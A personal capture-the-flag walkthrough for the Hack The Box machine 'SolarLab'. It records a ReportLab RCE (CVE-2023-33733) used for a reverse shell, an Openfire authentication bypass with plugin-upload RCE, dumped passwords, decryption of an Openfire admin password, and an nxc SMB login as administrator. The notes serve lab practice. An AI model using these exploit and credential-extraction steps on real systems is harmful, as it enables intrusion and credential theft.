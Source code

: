 ___


in the custom js functions there r some interesting endpoints


report sub domain has login page

found passes on share -> they don't work on login page -> windows httpapi or winrm ports not open



*could try those creds on RPC* -> dump info

gonna start looking at those endpoints


*this is blakes username on the report portal*
BlakeB


if user exists it gives you auth error -> if user doesn't gives u user not found on login portal




BlakeB -> this logs into portal
ThisCanB3typedeasily1@




can submit jpgs/data and pdf is generated

# CVE-2023-33733: RCE Vulnerability in ReportLab PDF Toolkit

Find Arctic Wolf’s recommendations for CVE-2023-33733: RCE Vulnerability in ReportLab PDF Toolkit.


got a rev shell <- !!!


used a powershell script as well as the exp.py



*got other user passes*

sqlite> select * from user;
1|blakeb|ThisCanB3typedeasily1@
2|claudias|007poiuytrewq
3|alexanderk|HotP!fireguard


*more creds kinda* not rlly
1|BlakeB|BlakeB
2|ClaudiaS|ClaudiaS
3|AlexanderK|ClaudiaS
4|blakeb|ThisCanB3typedeasily1@
5|claudias|007poiuytrewq
6|alexanderk|HotP!fireguard




*6791 maps to port 5000 internally*


  location / {
            if ($host != "report.solarlab.htb") {
                rewrite ^ http://report.solarlab.htb:6791$request_uri permanent;
            }
            # Proxy requests to http://127.0.0.1:5000
            proxy_pass http://127.0.0.1:5000;




*port 80 maps to solarlab.htb*


openfire is running on this what is the managemen port


netstat -a



*http admin page is here*

wget http://127.0.0.1:9090     


*ver*
Openfire, Version: 4.7.4




*vulnerable to this*
# Ignite.Realtime.Openfire.CVE-2023-32315.Authentication.Bypass



*rce can be achieved by plugin upload*
https://github.com/miko550/CVE-2023-32315



*got rce as solarlab/openfire user*
<foo><bar>Secr3t$tr1ng!</bar></foo>



#HSQL Database Engine 2.4.1
#Mon Sep 01 23:25:13 EEST 2025
version=2.4.1
modified=yes
tx_timestamp=0



Openfire bundles hsqldb as its embedded database

so its using embedded database so how do i connect to hsql




*found this on openfire.script to set up the database *

INSERT INTO OFUSER VALUES('admin','gjMoswpK+HakPdvLIvp6eLKlYh0=','9MwNQcJ9bF4YeyZDdns5gvXp620=','yidQk5Skw11QJWTBAloAb28lYHftqa0x',4096,NULL,'becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac62d4e89b2856b0289b365f3069802e59d442','Administrator','admin@solarlab.htb','001700223740785','0')



becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac62d4e89b2856b0289b365f3069802e59d442


 *I think this the table*
CREATE MEMORY TABLE PUBLIC.OFUSER(USERNAME VARCHAR(64) NOT NULL,STOREDKEY VARCHAR(32),SERVERKEY VARCHAR(32),SALT VARCHAR(32),ITERATIONS INTEGER,PLAINPASSWORD VARCHAR(32),ENCRYPTEDPASSWORD VARCHAR(255),NAME VARCHAR(100),EMAIL VARCHAR(100),CREATIONDATE VARCHAR(15) NOT NULL,MODIFICATIONDATE VARCHAR(15) NOT NULL,CONSTRAINT OFUSER_PK PRIMARY KEY(USERNAME))



*fuck this*

INSERT INTO OFPROPERTY VALUES('passwordKey','hGXiFzsKaAeYLjn',0,NULL)



*this finally worked for me*
java OpenFireDecryptPass becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac62d4e89b2856b0289b365f3069802e59d442 hGXiFzsKaAeYLjn
ThisPasswordShouldDo!@ (hex: 005400680069007300500061007300730077006F0072006400530068006F0075006C00640044006F00210040)
You have new mail.  



I was using the fucking wrong password for decryption it was in a separate entry in the script password with the name -> 

INSERT INTO OFPROPERTY VALUES('passwordKey','hGXiFzsKaAeYLjn',0,NULL)



nxc smb solarlab.htb -u 'administrator' -p 'ThisPasswordShouldDo!@' 
SMB         10.10.11.16     445    SOLARLAB         [*] Windows 10 / Server 2019 Build 19041 x64 (name:SOLARLAB) (domain:solarlab) (signing:False) (SMBv1:False)
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\administrator:ThisPasswordShouldDo!@ (Pwn3d!)



used smbexec.py and then did a powershell rev shell for better shell got root though

